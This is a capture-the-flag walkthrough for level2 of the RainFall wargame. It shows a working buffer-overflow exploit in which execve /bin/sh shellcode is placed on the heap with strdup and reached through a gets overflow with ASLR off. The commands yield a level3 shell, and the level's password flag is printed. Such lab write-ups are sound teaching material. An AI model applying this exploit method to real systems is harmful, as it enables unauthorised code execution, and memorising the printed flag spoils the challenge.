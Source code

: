 As for the previous level, we have a call to gets which is vulnerable to buffer overflow attacks. But this time, a check is made to make sure that the return of the function does not point to an address in the stack (0xb0000000). However, there is a call to strdup which records the user's input on the heap and which we can exploit.

!!! PRÉCISER CE POINT !!!

The address space layout randomization (ASLR) is off, meaning the memory addresses associated with running processes are predictable.
```
level2@RainFall:~$ cat /proc/sys/kernel/randomize_va_space
0
```
With ltrace, we get the address of our input registered on the heap (0x0804a008):
```
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff7d4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                    = 0
gets(0xbffff6dc, 0, 0, 0xb7e5ec73, 0x80482b5)                         = 0xbffff6dc
puts("ok")                                                            = 3
strdup("ok")                                                          = 0x0804a008
+++ exited (status 8) +++
```

Using gdb, we find that there are 80 bytes needed to reach the return address:
```
python -c "print 'A' * 80 + 'ABCD'" > /tmp/exploit
```
```
(gdb) r < /tmp/exploit
Starting program: /home/user/level2/level2 < /tmp/exploit
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDAAAAAAAAAAAAABCD

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
```

Now we just have to write or find a shellcode. On [this website](https://shell-storm.org/shellcode/), we find a lot of ready-to-use shellcodes. [this one](https://github.com/maxisimo/42-RainFall/blob/main/level2/walkthrough.md) corresponds to what we want to do. It is 21 bytes long so we need to complete our input with 59 '\x90' bytes (the 'No Operation' instruction), followed by the address of our shellcode on the heap, in the little endian convention:
`level2@RainFall:~$ python -c "print '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\x90' * 59 + '\x08\xa0\x04\x08'" > /tmp/exploit`


```
level2@RainFall:~$ cat /tmp/exploit - | ./level2 
1���
    Qh//shh/bin��̀������������������������������������������������������
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```